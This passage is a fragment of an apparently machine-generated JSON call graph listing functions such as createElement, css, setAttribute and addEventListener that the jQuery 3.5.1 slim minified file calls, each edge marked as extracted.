"source": "static/js/jquery-3.5.1.slim.min.js", "target": "cleanData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "htmlPrefilter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "cleanData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "empty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "inArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "cleanData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "replaceChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "pushStack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getPropertyValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "style"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "pixelBoxStyles"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "cloneNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "table"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "boxSizingReliable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "reliableTrDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getClientRects"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "cur"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "style"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "style"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "setProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "isFinite"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getClientRects"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "scrollboxSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "style"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "css"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "queue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "removeAttr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "prop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "isXMLDoc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "removeAttr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "removeAttr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "isXMLDoc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toggleClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "val"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "val"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "makeArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "inArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "inArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "val"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "stopPropagation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "makeArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "isPropagationStopped"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "isDefaultPrevented"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "isPropagationStopped"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "isPropagationStopped"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "simulate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "access"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "access"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "access"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "access"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "parseFromString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "getElementsByTagName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "encodeURIComponent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "encodeURIComponent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "isPlainObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "param"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "prop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "makeArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "val"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "extend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/jquery-3.5.1.slim.min.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", 